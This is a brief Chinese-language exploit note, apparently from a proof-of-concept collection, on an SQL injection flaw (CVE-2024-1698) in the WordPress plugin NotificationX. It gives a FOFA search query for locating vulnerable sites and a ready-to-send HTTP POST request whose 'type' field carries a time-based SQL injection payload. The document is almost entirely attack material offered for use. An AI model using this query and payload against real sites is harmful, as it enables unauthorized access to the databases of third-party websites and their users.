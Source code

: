 ## WordPress插件NotificationX存在sql注入漏洞(CVE-2024-1698)

## fofa
```
body="/wp-content/plugins/notificationx"
```

## poc
```
POST /wp-json/notificationx/v1/analytics HTTP/1.1
Host: 
Content-Type: application/json

{"nx_id": "1","type": "clicks`=1 and 1=sleep(5)-- -"}
```
